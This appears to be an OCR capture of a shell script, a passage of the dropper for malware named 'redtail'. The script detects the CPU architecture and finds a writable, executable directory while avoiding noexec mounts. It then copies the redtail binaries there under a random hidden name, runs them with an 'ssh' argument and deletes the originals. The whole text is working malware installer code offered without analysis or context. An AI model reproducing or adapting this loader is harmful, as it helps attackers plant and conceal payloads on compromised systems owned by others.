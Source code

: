 ```sh
    echo "$RANDOM"
    return 0
  fi

  # If all else fails
  echo "redtail"
  return 1
}

NOARCH=false
ARCH=$(uname -mp)

if echo "$ARCH" | grep -q "x86_64" || echo "$ARCH" | grep -q "amd64"; then
  ARCH="x86_64"
elif echo "$ARCH" | grep -q "i[3456]86"; then
  ARCH="i686"
elif echo "$ARCH" | grep -q "armv8" || echo "$ARCH" | grep -q "aarch64"; then
  ARCH="arm8"
elif echo "$ARCH" | grep -q "armv7"; then
  ARCH="arm7"
else
  NOARCH=true
fi

NOEXEC_DIRS=$(cat /proc/mounts | grep 'noexec' | awk '{print $2}')
EXCLUDE=""

for dir in $NOEXEC_DIRS; do
  EXCLUDE="${EXCLUDE} -not -path \"$dir\" -not -path \"$dir/*\""
done

FOLDERS=$(eval find / -type d -user $(whoami) -perm -u=rwx -not -path \"/tmp/*\" -not -path \"/proc/*\" $EXCLUDE 2>/dev/null)
CURR=${PWD}
FILENAME=".$(get_random_string)"

for i in $FOLDERS /tmp /var/tmp /dev/shm; do
  if cd "$i" && touch .testfile && (dd if=/dev/zero of=.testfile2 bs=2M count=1 >/dev/null 2>&1 || truncate -s 2M .testfile2 >/dev/null 2>&1); then
    rm -rf .testfile .testfile2
    if [ "$CURR" != "$i" ]; then
      cp -r "$CURR"/redtail.* "$i"
    fi
    break
  fi
done

rm -rf .redtail
rm -rf $FILENAME

if [ $NOARCH = true ]; then
  for a in x86_64 i686 arm8 arm7; do
    cat redtail.$a >$FILENAME
    chmod +x $FILENAME
    ./$FILENAME ssh
  done
else
  cat redtail.$ARCH >$FILENAME
  chmod +x $FILENAME
  ./$FILENAME ssh
fi

rm -rf redtail.*
```